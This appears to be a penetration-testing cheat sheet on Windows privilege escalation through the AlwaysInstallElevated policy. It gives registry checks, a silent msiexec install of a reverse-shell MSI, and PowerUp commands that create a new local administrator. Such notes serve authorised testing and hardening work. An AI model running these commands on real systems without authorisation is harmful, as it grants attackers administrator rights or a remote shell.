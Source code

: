 #### 1st Method

**Detection**

Open command prompt and type: 

```batch - windows
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

From the output, notice that “AlwaysInstallElevated” value is 1.  

In command prompt type: 

```batch - windows
reg query HKCU\Software\Policies\Microsoft\Windows\Installer  
```

From the output, notice that “AlwaysInstallElevated” value is 1.

Extra step: Run the following to look for any conditions.
```powershell - target
get-applockerpolicy -effective | select -expandproperty rulecollections
```

In this example, the malicious msi file would need to go in the `C:\Administrator` path.

**Exploitation**

[[1._Reverse Shells (WIN)#msi]]

Place ‘reverse.msi’ in ‘C:\Temp’.  

Open command prompt and type: 

```batch - windows
msiexec /quiet /qn /i C:\<PUT_THE_ENTIRE_PATH>\reverse.msi
```

#### 2nd Method
```batch - windows
powershell -ep bypass
```

```powershell - windows
. .\PowerUp.ps1
```

```powershell - windows
Invoke-AllChecks
```

```powershell - windows
Write-UserAddMSI
```

Now you will see a UserAdd file in the same directory as the PowerUp file.

Open the UserAdd file.

Fill in details, click create.

```batch - windows
net localgroup administrators
```

See our new user is now listed there.

